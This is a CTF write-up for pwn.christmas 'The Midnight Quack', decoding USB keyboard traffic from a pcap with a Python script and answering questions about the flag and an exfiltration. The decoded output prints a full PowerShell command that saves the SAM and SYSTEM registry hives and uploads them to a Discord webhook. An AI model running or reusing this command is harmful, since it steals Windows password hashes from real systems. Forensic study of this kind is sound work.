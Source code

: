 ```yaml
---
title: "The Midnight Quack - pwn.christmas"
date: 2024-12-23 00:00:00 -0800
categories: CTF pwn.christmas
tags: HID Wireshark ProtocolAnalysis
---
```



# Part 1

## Description

Challenges in this category will reference the same file(s).

What is the flag found in the file provided?

file provided **midnight_quack_pcap.pcapng**

## Solution

After opening up the file in wireshark we can see that most of the packets are USB Protocol.

After analyzing a bit , we can see that some of the usb packets have HID data, which contains arrays with the keyboard buttons pressed. As an example:

```
Frame 69: 35 bytes on wire (280 bits), 35 bytes captured (280 bits) on interface \\.\USBPcap2, id 0
    Section number: 1
    Interface id: 0 (\\.\USBPcap2)
    Encapsulation type: USB packets with USBPcap header (152)
    Arrival Time: Dec 20, 2024 05:30:19.250807000 Pacific Standard Time
    UTC Arrival Time: Dec 20, 2024 13:30:19.250807000 UTC
    Epoch Arrival Time: 1734701419.250807000
    [Time shift for this packet: 0.000000000 seconds]
    [Time delta from previous captured frame: 0.001965000 seconds]
    [Time delta from previous displayed frame: 0.001965000 seconds]
    [Time since reference or first frame: 5.327536000 seconds]
    Frame Number: 69
    Frame Length: 35 bytes (280 bits)
    Capture Length: 35 bytes (280 bits)
    [Frame is marked: False]
    [Frame is ignored: False]
    [Protocols in frame: usb:usbhid]
USB URB
    [Source: 2.5.1]
    [Destination: host]
    USBPcap pseudoheader length: 27
    IRP ID: 0xffff8584f6061a70
    IRP USBD_STATUS: USBD_STATUS_SUCCESS (0x00000000)
    URB Function: URB_FUNCTION_BULK_OR_INTERRUPT_TRANSFER (0x0009)
    IRP information: 0x01, Direction: PDO -> FDO
        0000 000. = Reserved: 0x00
        .... ...1 = Direction: PDO -> FDO (0x1)
    URB bus id: 2
    Device address: 5
    Endpoint: 0x81, Direction: IN
        1... .... = Direction: IN (1)
        .... 0001 = Endpoint number: 1
    URB transfer type: URB_INTERRUPT (0x01)
    Packet Data Length: 8
    [Request in: 62]
    [Time from request: 2.013981000 seconds]
    [bInterfaceClass: HID (0x03)]
HID Data: 0800150000000000
    .... ...0 = Key: LeftControl (0xe0): UP
    .... ..0. = Key: LeftShift (0xe1): UP
    .... .0.. = Key: LeftAlt (0xe2): UP
    .... 1... = Key: LeftGUI (0xe3): DOWN
    ...0 .... = Key: RightControl (0xe4): UP
    ..0. .... = Key: RightShift (0xe5): UP
    .0.. .... = Key: RightAlt (0xe6): UP
    0... .... = Key: RightGUI (0xe7): UP
    Padding: 00
    Array: 150000000000
        0001 0101 = Usage: Keyboard r and R (0x0007, 0x0015)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)

```

This packet shows us that `r` pressed. After analyzing the packet we can see that the packets tell us if shift was also pressed (`.... ..0. = Key: LeftShift (0xe1): UP`). so we can tell the difference between 6 and ^.

We can filter the packets by writing `usbhid.data.array != 00:00:00:00:00:00` which will give us only packets that have keyboard presses. now we can extract the data as a txt file.

To find what keys were pressed, I wrote a python code that will remove everything and only show what key was pressed, as an example from the packet above we would only get `r` since the shift key wasn't pressed.

The code:

```python
import re
def parse_hid_data(block):
    shift_key_down = re.search(r'Key: LeftShift.*DOWN|Key: RightShift.*DOWN', block) is not None
    array_pattern = re.compile(r'Array:\s+[0-9a-fA-F]+\n(\s+.*?Usage: Keyboard [^\n]+)')
    array_matches = array_pattern.findall(block)
    output = []
    for line in array_matches:
        usage_match = re.search(r'Usage: Keyboard (.*) \((.*)\)', line)
        if usage_match:
            description = usage_match.group(1)
            if " and " in description:
                if shift_key_down:
                    output.append(description.split(" and ")[1])
                else:
                    output.append(description.split(" and ")[0])
            elif description == "Spacebar":
                output.append(' ')
            elif description == "Underscore":
                output.append('_')
            else:
                output.append(description)
    return ''.join(output)
def process_file(input_file, output_file):
    with open(input_file, 'r') as file:
        content = file.read()
    blocks = content.split("Frame")
    results = []
    for block in blocks:
        if block.strip():
            result = parse_hid_data("Frame" + block)
            results.append(result)
    final_output = ''.join(results)
    with open(output_file, 'w') as out_file:
        out_file.write(final_output)
input_file = 'main.txt'
output_file = 'filter.txt'
process_file(input_file, output_file)


```

The output is:

``` powershell
drpowershell Start-Process powershell -Verb runAsReturn (ENTER)LeftArrowReturn (ENTER)Write-Host "Flag: pwn{h0tplug(underscore)att4ck5(underscore)g0(underscore)h4rd}"Return (ENTER)C:\Windows\System32\reg save HKLM\SAM sam /y; C:\Windows\System32\reg save HKLM\SYSTEM system /y; Add-Type -AssemblyName "System.Net.Http"; $webhookUrl = "https://canary.discord.com/api/webhooks/1319654236287664248/R(underscore)MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P"; $client = New-Object System.Net.Http.HttpClient; $fileStream1 = [System.IO.File]::OpenRead("sam"); $fileContent1 = New-Object System.Net.Http.StreamContent($fileStream1); $content1 = New-Object System.Net.Http.MultipartFormDataContent; $content1.Add($fileContent1, "file", "sam"); $client.PostAsync($webhookUrl, $content1).Result; $fileStream1.Close(); $fileStream2 = [System.IO.File]::OpenRead("system"); $fileContent2 = New-Object System.Net.Http.StreamContent($fileStream2); $content2 = New-Object System.Net.Http.MultipartFormDataContent; $content2.Add($fileContent2, "file", "system"); $client.PostAsync($webhookUrl, $content2).Result; $fileStream2.Close()Return (ENTER)d
```

(I forgot to switch underscore to _  but that's easy to do with hand)



flag is: `pwn{h0tplug_att4ck5_g0_h4rd}`

# Part 2

## Description

What is being exfiltrated from the endpoint where this capture was taken?

_Hint: We're looking for two file names._

## Solution

After we look at the output we got earlier, we can see the  `$content1.Add($fileContent1, "file", "sam"); $client.PostAsync($webhookUrl, $content1).Result; $fileStream1.Close(); $fileStream2 = [System.IO.File]::OpenRead("system");` part. which gives us two fiiles, sam and system

Answer : Sam, System

# Part 3

## Description

What URL were the SAM and SYSTEM files exfiltrated to?

## Solution

The output we got earlier gives us an URL: `https://canary.discord.com/api/webhooks/1319654236287664248/R_MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P`

Answer : `https://canary.discord.com/api/webhooks/1319654236287664248/R_MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P`



